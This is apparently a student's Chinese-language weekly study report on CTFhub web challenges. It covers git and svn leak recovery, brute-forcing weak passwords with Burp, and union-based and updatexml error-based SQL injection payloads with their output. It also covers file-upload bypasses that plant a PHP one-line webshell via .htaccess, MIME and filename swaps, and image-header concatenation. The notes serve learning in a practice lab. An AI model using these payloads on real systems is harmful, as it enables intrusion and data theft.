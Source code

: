 # `<font style="color:rgb(38, 38, 38);">`完成事项 `</font>`

+ 学习CTFhub中的web项，信息泄露的所有题、弱口令、sql注入（整数、字符、报错）、文件上传（除00截断、双写后缀）。
+ 学习了git的基本使用方法。

# `<font style="color:rgb(38, 38, 38);">`下周待做事项 `</font>`

+ 继续学习web项，将web题尽量做完。

# `<font style="color:rgb(38, 38, 38);">`本周学习的知识分享 `</font>`

#### git泄露

使用githack，获取服务器的git内容。使用 `git log`可以查看版本的历史记录。找到 `ADD FLAG`对应的 `commit_id`，使用 `git reset --hard commit_id`命令回退到ADD FLAG版本，cat flag。

##### stash

使用 `git stash list` 显示保存进度的列表，发现有 stash，使用 `git stash pop` 恢复最新的进度到工作区，这个文件的内容就是 flag。

##### .svn&.hg

都可以使用dvcs-ripper工具。

#### 弱口令

使用burpsuit字典直接爆破。

#### SQL注入

group_concat()返回结果为连接参数产生的字符串。

##### 整数型注入

`?id=0 union select 1,database()`回显 `ID: 1 Data: sqli`可得数据库为sqli。

查询sqli库中所有表： `?id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' `回显 `ID: 1 Data: flag,news`可得有一个flag的表。

查询flag表中有什么字段： `?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli'`回显 `ID: 1 Data: flag,id,data`可得有一个flag字段。

查询flag字段内容：`?id=-1 union select 1,group_concat(flag) from flag`回显 `ID: 1 Data: ctfhub{a3103d63f3e01ccb9d4fa663}`

##### 字符型注入

与整数型注入类似，只需在 `id=-1`后添加后引号将引号闭合，再在payload最后加上 `#`注释掉原本最后的后引号即可

##### 报错注入

查询库名：`1 and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#`

查询库中所有表：`1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #`

查询flag表中所有字段：`1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'),0x7e),1) #`

查询flag：`1 and updatexml(1,concat(0x7e,(select group_concat(flag) from sqli.flag)),1) #`

#### 文件上传

##### 无验证

直接上传一句话木马，然后用蚁剑连接即可。

##### 前端验证

直接F12禁用js，上传一句话木马。

##### .htaccess

上传一个.htaccess文件内容 `<FilesMatch "shell"> Sethandler application/x-httpd-php  </FilesMatch>`，再上传一个jpg后缀的一句话木马即可。

##### MIME绕过

burp抓包上传一个 `.jpg`后缀的一句话木马，再在burp中把 `filename`改回.php后缀，上传即可。

##### 文件头检查

cmd中使用命令将png文件和一句话木马结合在一起 `copy .\QQ20241017-200855.png/b + .\shell.php mm.png `生成mm.php。再用burp抓包上传mm.php，再在burp中把 `filename`改回.php后缀，上传即可。

# `<font style="color:rgb(38, 38, 38);">`本周学习总结 `</font>`

每一次做题的同时写WP，可以减少后期补的痛苦。
